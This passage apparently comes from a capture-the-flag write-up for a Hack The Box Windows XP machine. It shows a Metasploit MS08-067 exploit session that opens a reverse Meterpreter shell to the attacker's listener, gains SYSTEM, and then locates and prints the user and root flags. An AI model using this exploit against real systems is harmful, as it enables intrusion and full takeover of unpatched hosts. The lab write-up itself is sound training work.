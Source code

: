 ``` bash

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set lhost 10.10.14.102
lhost => 10.10.14.102
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit

[*] Started reverse TCP handler on 10.10.14.102:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.14.102:4444 -> 10.129.227.181:1162 ) at 2022-06-02 15:39:27 +0530

 Meterpreter 2)(C:\WINDOWS\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
(Meterpreter 2)(C:\WINDOWS\system32) > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows


```
Incase if the exploit wont work reset the machine and try once more it will work. 

### user flag
User flag found under users Desktop path ```C:\Documents and Settings\john\Desktop\user.txt ```

``` powershell
Directory of C:\Documents and Settings\john\Desktop

16/03/2017  09:19 ��    <DIR>          .
16/03/2017  09:19 ��    <DIR>          ..
16/03/2017  09:19 ��                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.312.239.104 bytes free

```

### Root flag

Similarly Admin flag found under Administrator Desktop 
``` C:\Documents and Settings\Administrator\Desktop\root.txt ```

``` powershell
Directory of C:\Documents and Settings\Administrator\Desktop

16/03/2017  09:18 ��    <DIR>          .
16/03/2017  09:18 ��    <DIR>          ..
16/03/2017  09:18 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.296.653.824 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
99344----------------------e695d5713

```
